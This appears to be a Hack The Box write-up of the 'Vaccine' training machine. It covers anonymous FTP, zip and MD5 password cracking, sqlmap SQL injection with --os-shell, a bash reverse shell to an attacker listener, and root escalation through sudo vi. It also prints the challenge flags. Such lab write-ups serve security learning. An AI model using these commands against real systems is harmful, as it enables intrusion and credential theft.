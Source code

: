 ```yaml
---
title: 'Vaccine - HTB Starting Point Tier 2'
description: 'Writeup for Vaccine box'
pubDate: 'Feb 6 2025'
heroImage: 'blog-placeholder-3.jpg'
---
```


## Vaccine
*Postgres, PHP, SQLi*

**Task 1**  
Besides SSH and HTTP, what other service is hosted on this box?  

FTP as per nmap scan

```bash
kali$ nmap -sC $TARGET --min-rate=2000 | tee nmap-sc.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 11:13 AEDT
Nmap scan report for 10.129.95.174
Host is up (0.36s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.15.41
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh
| ssh-hostkey:
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: MegaCorp Login

Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

**Task 2**  
This service can be configured to allow login with any password for specific username. What is that username?  

`anonymous`

**Task 3**  
What is the name of the file downloaded over this service?  

`backup.zip`

```bash
kali$ ftp $TARGET
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:malachi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10511|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10450|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |*************************************************************************************************************************************|  2533      489.24 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (6.83 KiB/s)
ftp> pwd
Remote directory: /
```


**Task 4**  
What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?  

`zip2john`

**Task 5**  
What is the password for the admin user on the website?  

1. Use John to crack zip (password: `741852963`)
2. Read index file and we find md5 hash of admin password (md5: `2cb42f8734ea607eefed3b70af13bbd3`)
3. Lookup unsalted md5 reverse to get `qwerty789` for user `admin`

**Task 6**  
What option can be passed to sqlmap to try to get command execution via the sql injection?  

Given we have an admin password to the PHP site, let's take a look at the website and peek around for any potential vulnerabilities. Upon logging in, we are granted with a dashboard with a search bar. That search appears to be the only interactive functionality. Let's have a play around. Aha! Typing `a'` gives us a SQL error

```sql
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%a'%'^
```

At this point, we have an unsanitised input for SQLi at the endpoint `http://$TARGET/dashboard.php?search=<something>`

Looking at the `sqlmap` options, the `--os-shell` looks pretty good.


**Task 7**  
What program can the postgres user run as root using sudo?  

First, let's gain access to the machine. (n.b. extending the timeout prevented me from getting kicked off every couple of minutes)

```bash
kali$ sqlmap --os-shell -u http://$TARGET/dashboard.php?search=abc --cookie=PHPSESSID=<session id> --timeout 1800
...
it looks like the back-end DMBS is 'PostgreSQL'
...
[09:26:14] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[09:26:17] [INFO] fingerprinting the back-end DBMS operating system
[09:26:19] [INFO] the back-end DBMS operating system is Linux
[09:26:20] [INFO] testing if current user is DBA
[09:26:21] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[09:26:21] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
command standard output: 'postgres'
os-shell> pwd
command standard output: '/var/lib/postgresql/11/main'
```

Let's establish a more stable shell

```
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/<IP>/1337 0>&1'
...
kali$ nc -lvnp 1337
postgres@vaccine:/var/lib/postgresql/11/main$
```

My initial idea was to look for files that had the SETUID bit. That could perhaps give an idea for a program we could abuse for privesc. Unfortunately that only yielded the standard files in /usr/bin and /usr/share, as well as a bunch of snap packages. This didn't seem to be the right approach:

```bash
# Failed attempt to find permissions
find /usr 2>/dev/null -type f -perm /4000
```

I referred to a hint which pointed me in the direction of `sudo -l`. When trying to find permissions by `sudo -l`, I was getting hit with the error `sudo: a terminal is required to read the password`. At this point, I returned to the writeup which showed that while this bash reverse shell was more stable, it wasn't enough - we needed a stable shell. See docs for [`pty.spawn()`](https://docs.python.org/3/library/pty.html#pty.spawn)

```
postgres@vaccine:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Even still, trying to use the command `sudo -l` was prompting for a password. I did go to the writeup for a hint - it said to look in the `/var/www/html` directory where the site was. If there were some creds stored in the PHP files, there could possible be some SQL things too. We know the dashboard is retrieving data from somewhere. Let's look at that:

```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

Excellent! Looks like exactly what we're after.

```bash
postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The user can run `vi` as root. (n.b. it can run as root to edit that specific file. I didn't realise that at first)


**Task 8**  
Submit user flag  

From spawning a stable shell in task 7:
```bash
postgres@vaccine:/var/lib/postgresql/11/main$ cd ~
cd ~
postgres@vaccine:/var/lib/postgresql$ ls
ls
11  user.txt
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```


**Task 9**  
Submit root flag  

In vi, we can get a shell by `:sh`. Doing so after opening the file with sudo gives us a root shell. 

```bash
postgres@vaccine$ sudo vi /etc/postgresql/11/main/pg_hba.conf
password for postgres: ...

# vim
:sh
wroot@vaccine#whoami
whoami
root
root@vaccine# cd ~
root@vaccine:~# ls
ls
pg_hba.conf  root.txt  snap
root@vaccine:~# cat root.txt
cat root.txt
dd6e058e814260bc70e9bbdef2715849
```

Look at that! Root flag obtained. What I didn't know earlier, and perhaps was due to not reading the full output before, was that in order for the command to be executed as root, I would need to use `sudo` on that specific command. I had assumed that simply using `vi` would automatically default to root. When that didn't work, I assumed that using `vi` to open the file would automatically escalate me to root. Turns out, I need to specify sudo. Sudo would then perform a lookup to validate permissions. Also worth noting is the gtfobins page on vi here: https://gtfobins.github.io/gtfobins/vi/#sudo

